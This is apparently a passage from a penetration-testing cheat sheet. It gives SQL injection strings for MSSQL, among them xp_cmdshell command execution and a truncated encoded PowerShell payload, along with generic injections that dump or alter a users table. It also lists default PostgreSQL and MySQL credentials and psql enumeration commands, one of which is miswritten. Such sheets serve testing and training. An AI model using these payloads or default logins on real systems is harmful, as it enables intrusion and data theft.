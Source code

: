 Resources
* [List Of File Signatures](https://en.wikipedia.org/wiki/List_of_file_signatures)

### SQL Injection

MSSQL Injection Commands:

```sql
admin'; EXEC xp_cmdshell "ping [IP]"; --
admin'; EXEC "sp_configure 'xp_cmdshell', '1'"; --
admin'; EXEC xp_cmdshell "powershell -e JABjAGwAaQBl..."; --
```

SQL Injection Commands:

```sql
admin'; show tables; --
admin'; select * from users; ---
admin'; INSERT INTO "users" (id, name, password) VALUES (NULL, NULL, NULL); --
```
### PostgreSQL

Default Credential:

* `postgres:postgres`

PSQL Login Command:

```bash
psql -h "[TARGET-IP]" -U "[USERNAME]" -W
```

PSQL Database Commands:

```mysql
# Shows version
SELECT VERSION();

# Shows tables
/d

# List tables from current schema
\dt

# Lists tables from all schema
\dt <name-of-schema>.*
```
### MySQL

Default Credentials
* `root:root`
* `root:toor`
* `root:no password`

### WordPress
